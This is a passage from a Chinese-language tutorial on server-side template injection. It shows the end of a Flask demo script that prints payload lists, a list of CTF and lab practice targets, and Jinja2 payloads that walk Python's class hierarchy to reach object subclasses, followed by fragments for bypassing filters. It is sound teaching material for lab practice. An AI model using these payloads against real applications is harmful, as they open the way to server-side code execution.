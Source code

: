 ```python
print("SSTI基础payload,你可以尝试访问/ssti,get传参")
print("探测payload:", basic_payloads)
print("信息收集payload:", info_gathering[:3])

if __name__ == '__main__':
    app.run(debug=True)
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1753178460404-b95e2574-df9b-4aef-ad26-61ee3017fdcf.png)







### 实战演练靶场
1. NSSCTF-web 部分
2. BUUCTF-web 部分
3. Damn Vulnerable Web Application - **DVWA**
4. PortSwigger Labs - **「Server-side template injection」章节**
5. Hack The Box - **「Jeeves」靶机**
6. CTFAkademia - **SSTI Labs**（中文）



## SSTI 深入学习


### Python 链子介绍
:::info
Python-万物皆对象

:::

```python
{{ ''.__class__ }}                          # str 类
{{ ''.__class__.__mro__ }}                 # 查看类继承顺序
{{ ''.__class__.__mro__[1] }}              # object 类
{{ ''.__class__.__mro__[1].__subclasses__() }}  # 所有子类列表
```





### 绕过


基类

```python
__mro__[-1]
__base__
__bases__[0]
```

`.` 被ban
